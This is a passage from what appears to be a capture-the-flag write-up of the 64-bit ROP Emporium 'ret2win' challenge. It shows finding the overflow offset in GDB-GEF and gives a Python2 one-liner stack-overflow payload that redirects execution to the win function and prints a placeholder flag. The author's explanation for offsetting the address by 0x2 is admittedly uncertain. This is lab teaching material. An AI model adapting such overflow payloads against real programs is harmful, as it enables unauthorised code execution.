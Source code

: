 ![GDB-GEF Segmentation Fault RSP Overwrite](/assets/images/ROP_Emporium/ret2win/finding_the_offset_64-bit.png)

The `RSP` register was overwritten with the value `0x6161616161616166`. Using the command `pattern offset 0x6161616161616166` in `GDB-GEF`, it calculated the offset to be **40**.

### Step 3: Writing the Exploit
I again, wrote exploits in Python2, Python3, and `pwntools`.

I found that when returning to the `ret2win()` function, it was not printing the flag although the function was being called successfully. I discovered that adding `0x2` onto the address of `ret2win()` it worked perfectly fine. This usually occurs in 64-bit binaries when the function starts with an `endbr64` instruction. Although the `ret2win()` function in this binary does not, the issue still occurs oddly enough.

#### Python2 One-Line Exploit
`python2 -c 'print "A"*40 + "\x58\x07\x40\x00\x00\x00\x00\x00"'`
```
$ python2 -c 'print "A"*40 + "\x58\x07\x40\x00\x00\x00\x00\x00"' | ./ret2win

ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```
